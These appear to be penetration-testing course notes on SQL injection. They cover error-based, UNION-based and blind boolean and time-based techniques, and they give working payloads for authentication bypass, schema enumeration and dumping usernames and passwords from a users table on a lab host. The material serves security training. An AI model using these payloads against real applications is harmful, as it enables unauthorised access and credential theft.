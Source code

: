 # SQLi


SQL vulnerabilities typically allow the attacker to extend the original application query to include database tables that would normally be inaccessible.

Subvert the intended application logic.


SQL enumeration


## Database Fingerprinting

When testing a web application, we sometimes lack prior knowledge of the underlying database system, so we should be prepared to interact with different SQL database variants.









## Identifying SQLi via Error-based Payloads

SQL injection can lead to authentication bypass, which is the first exploitation avenue we'll explore.


SQL injection is considered *in-band* when the vulnerable application provides the result of the query along with the application-returned value (SQL debugging enabled)

In-band: we're able to retrieve the database content of our query inside the web application.



Trailing the comments with two double slashes `//`. This provides visibility on our payload, and also adds some protection against any kind of whitespace truncation the web application might employ.

```
offsec' OR 1=1 -- //
```

To further expand on our attack, we could also take advantage of the error-based payload by enumerating the database directly.

```
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE r username = 'admin') -- //
```






## UNION-based Payloads
Concatenate two queries into one statement.

Whenever we're dealing with in-band SQL injections and the result of the query is displayed along with the application-returned value, we should also test for UNION-based SQL injections.


Two conditions:

1. The injected UNION query has to include the same number of columns as the original query.

2. The data types need to be compatible between each column.


Before crafting any attack strategy, we need to know the exact number of columns present in the target table.

To discover the correct number of columns, we can submit the following injected query, increasing the column value by one each time:

```
' ORDER BY 1-- //
```


Example (5 columns):
```
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version -- //
```




Let's extend our tradecraft and verify whether a other tables are present in the current database.
We can start by enumerating the information schema of the current database from the `information_schema.columns` table.

Retrieve the columns table from the `information_schema` database belonging to the current database:

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```


Let's say we discovered a new table named users that contains four columns, including one named password. We craft a new query to dump the users table:

```
' UNION SELECT null, username, password, description, null FROM users -- //
```















## Blind SQL Injections

Opposed to in-band, blind SQL injections describe scenarios in which database responses are not directly returned, and behavior is inferred using either boolean- or time-based logic.


- Boolean-based blind SQL injections cause the application to return different and predictable values whenever the database query returns a TRUE or FALSE result. The output used to infer results comes from the web application, not the database itself.


```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```
Since 1=1 will always be TRUE, the application will return the values only if the user is present in the database.
Using this syntax, we could enumerate the entire database for other usernames or even extend our SQL query to verify data in other tables.




- Time-based blind SQL injections infer the query results by instructing the database to wait for a specified amount of time. Based on the response time, the attacker is able to conclude if the statement is TRUE or FALSE.


```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

The IF condition will always be true inside the statement itself, but will return false if the user is non-existent.

























































































